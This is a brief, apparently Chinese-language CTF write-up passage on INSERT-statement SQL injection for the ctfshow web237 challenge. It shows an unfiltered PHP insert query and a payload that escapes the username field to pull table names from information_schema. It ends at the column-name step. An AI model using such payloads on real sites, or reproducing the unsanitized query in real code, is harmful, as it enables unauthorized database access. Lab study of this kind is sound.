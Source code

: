 #### insert注入

#### web237

```php
查询语句

  //插入数据
  $sql = "insert into ctfshow_user(username,pass) value('{$username}','{$password}');";
      
返回逻辑

  //无过滤
```

insert函数用于插入值

其实跟update注入差不多

payload:

读表名

```
password=1&username=1',(select group_concat(table_name) from information_schema.tables where table_schema=database()));#
```

![image-20250218102751491](../assets/image-20250218102751491.png)

查列名
